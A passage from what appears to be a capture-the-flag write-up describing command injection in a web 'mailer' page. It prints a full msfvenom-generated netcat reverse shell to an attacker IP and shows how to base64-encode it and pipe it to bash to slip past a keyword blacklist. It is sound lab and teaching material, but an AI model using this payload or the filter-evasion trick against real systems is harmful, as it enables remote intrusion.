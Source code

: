 After investigating each page, ```mailer``` revealed a command injection vulnerability.

I found this by looking at the source code of the page, where a comment showed how the page was supposed to work:

```
<!--a href='/?page=mailer&mail=mail wallaby "message goes here"'><button type='button'>Sendmail</button-->
```

Knowing this, I tried using ```ls``` as the parameter. This was what confirmed the command injection vulnerability.

![image](https://user-images.githubusercontent.com/45502375/197371136-ae009c2c-241a-4f29-8e16-da4c63952ea4.png)

The next thing I tried was a reverse shell command.

I tried the command ```which nc``` to see if I would be able to use a reverse netcat payload.

However, when I tried this, the webpage made fun of me for trying something so simple.

![image](https://user-images.githubusercontent.com/45502375/197371192-fa37dd77-1108-4020-b7e5-0b80e12ba6b4.png)

Good news: Netcat probably existed. Bad news: I had to try harder.

Keywords were being blacklisted, so I used Msfvenom to generate a reverse netcat payload and then obfuscated it using base64 encoding to bypass filtering.

```
 $ sudo msfvenom -p cmd/unix/reverse_netcat lhost=192.168.159.128 lport=4444 R                                                                                                                   
[sudo] password for meowmycks: 
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 105 bytes
mkfifo /tmp/bdhqhwb; nc 192.168.159.128 4444 0</tmp/bdhqhwb | /bin/sh >/tmp/bdhqhwb 2>&1; rm /tmp/bdhqhwb

$ echo "mkfifo /tmp/bdhqhwb; nc 192.168.159.128 4444 0</tmp/bdhqhwb | /bin/sh >/tmp/bdhqhwb 2>&1; rm /tmp/bdhqhwb" | base64   
bWtmaWZvIC90bXAvYmRocWh3YjsgbmMgMTkyLjE2OC4xNTkuMTI4IDQ0NDQgMDwvdG1wL2JkaHFo
d2IgfCAvYmluL3NoID4vdG1wL2JkaHFod2IgMj4mMTsgcm0gL3RtcC9iZGhxaHdiCg==
```

The final payload would be the base64-encoded string followed by two piped commands. The first would decode the string and the second would interpret the echoed string as a bash command, resulting in the following:

```
echo "bWtmaWZvIC90bXAvYmRocWh3YjsgbmMgMTkyLjE2OC4xNTkuMTI4IDQ0NDQgMDwvdG1wL2JkaHFod2IgfCAvYmluL3NoID4vdG1wL2JkaHFod2IgMj4mMTsgcm0gL3RtcC9iZGhxaHdiCg==" | base64 -d | bash
```

Testing it on my own machine, the command successfully executed.

```
$ echo "bWtmaWZvIC90bXAvYmRocWh3YjsgbmMgMTkyLjE2OC4xNTkuMTI4IDQ0NDQgMDwvdG1wL2JkaHFod2IgfCAvYmluL3NoID4vdG1wL2JkaHFod2IgMj4mMTsgcm0gL3RtcC9iZGhxaHdiCg==" | base64 -d | bash
(UNKNOWN) [192.168.159.128] 4444 (?) : Connection refused
```
